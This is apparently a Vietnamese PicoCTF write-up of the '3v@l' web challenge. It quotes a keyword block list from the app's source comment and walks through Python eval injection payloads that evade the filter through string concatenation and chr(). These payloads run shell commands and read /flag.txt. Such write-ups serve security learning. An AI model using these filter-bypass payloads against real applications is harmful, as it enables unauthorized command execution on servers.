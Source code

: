 # 3v@l

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image295.png?raw=true)

Truy cập website:

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image296.png?raw=true)

Dựa vào gợi ý hiển thị từ box, tôi đã thử nhập `PRT*RATE*TIME(10000*23*12)` và click `Execute`:

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image297.png?raw=true)

=> Thông báo lỗi `name 'PRT' is not defined`. Tiếp theo tôi thử nhập:

    <script>alert("1")</script>

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image298.png?raw=true)

=> Thông báo lỗi `Detected forbidden keyword ''`.

Thử xem source code:

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image299.png?raw=true)

Dựa vào source code, tôi biết rằng website sử dụng python ở phía back-end, với đoạn chú thích:

    <!--
        TODO
        ------------
        Secure python_flask eval execution by 
            1.blocking malcious keyword like os,eval,exec,bind,connect,python,socket,ls,cat,shell,bind
            2.Implementing regex: r'0x[0-9A-Fa-f]+|\\u[0-9A-Fa-f]{4}|%[0-9A-Fa-f]{2}|\.[A-Za-z0-9]{1,3}\b|[\\\/]|\.\.'
    -->

Tôi sẽ thử nhập payload để xem biện pháp bảo vệ `python_flask eval execution` có hoạt động không:

    __import__('os').popen('ls').read()

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image300.png?raw=true)

=> Như vậy, tôi cần tìm cách bypass qua bộ lọc này. Tôi thử nhập payload sau:

    __import__('o'+'s').popen('l' + 's').read()

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image301.png?raw=true)

=> Website đã liệt kê ra `app.py`, `static` và `templates`. Tiếp theo, tôi muốn thử liệt kê ra xem những gì có trong thư mục `/`: 

    __import__('o'+'s').popen('l' + 's' + ' /').read()

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image302.png?raw=true)

=> Có vẻ website đã lọc cả ký tự `/`. Ý tưởng tiếp theo của tôi là tôi thử sử dụng hàm `chr()` để ánh xạ sang ký tự `/`:

    __import__('o'+'s').popen('l' + 's ' + chr(47)).read()

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image303.png?raw=true)

=> Thành công tìm ra file `flag.txt`. Payload cuối cùng của tôi sẽ là: 

    __import__('o'+'s').popen('c' + 'at ' + chr(47) + 'fl' + 'ag' + chr(46) + 't' + 'xt').read()

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image304.png?raw=true)





